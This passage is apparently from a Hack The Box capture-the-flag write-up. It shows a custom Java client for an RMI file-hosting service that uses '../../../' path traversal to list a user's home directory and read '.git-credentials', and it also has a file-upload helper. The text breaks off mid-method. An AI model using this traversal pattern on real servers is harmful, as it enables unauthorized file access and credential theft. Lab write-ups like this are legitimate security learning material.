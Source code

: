 ```bash
```

The `RMIClientWrapper`, `FileService` and `AbstractFile` do not need any changes, I just created a new Main.java and wrote some extra methods like `DirectoryListing`, `PrintFile`, `CreateDomain`(These are actually wrappers) and so on for it. All these methods use the `RMIClientWrapper` to communicate with the RMI server.

So i just created a new domain to get a fresh `vhost` name, and i just inserted the new value into the called methods.

```java
import com.htb.hosting.rmi.AbstractFile;
import com.htb.hosting.rmi.RMIClientWrapper;
import java.nio.charset.StandardCharsets;
import java.util.List;

public class Main {
    public static void main(String[] args) {
        try
        {
            DirectoryListing("366ceb957b0c", "../../../home/developer");
            PrintFile("366ceb957b0c", "../../../home/developer/.git-credentials");
        }
        catch (Exception ex){
            System.err.println("Something went wrong !!");
            System.err.println(ex.getMessage());
        }
    }

    public static void PrintFile(String vhost, String filePath){
        try {
            byte[] bytes = RMIClientWrapper.get().view(vhost, filePath);
            String content = new String(bytes, StandardCharsets.UTF_8);
            System.out.println(content);
        } catch (Exception e) {
            System.err.println(e.getMessage());
        }
    }

    public static boolean UploadFile(String vhost, String filePath, String content){
        try {
            AbstractFile remoteFile = RMIClientWrapper.get().getFile(vhost, filePath);
            return RMIClientWrapper.get().uploadFile(vhost, remoteFile.getAbsolutePath(), content.getBytes());
        } catch (Exception e) {
            System.err.println(e.getMessage());
        }
        return false;
    }

    public static void DirectoryListing(String vhost, String filePath){
        try {
            List<AbstractFile> files = RMIClientWrapper.get().list(vhost, filePath);
            for (AbstractFile file : files) {
                System.out.println(file.getName());
            }
        } catch (Exception e) {
            System.err.println(e.getMessage());
        }
    }

    public static boolean CreateDomain(String domain){
        try {
            return RMIClientWrapper.get().newDomain(domain);
```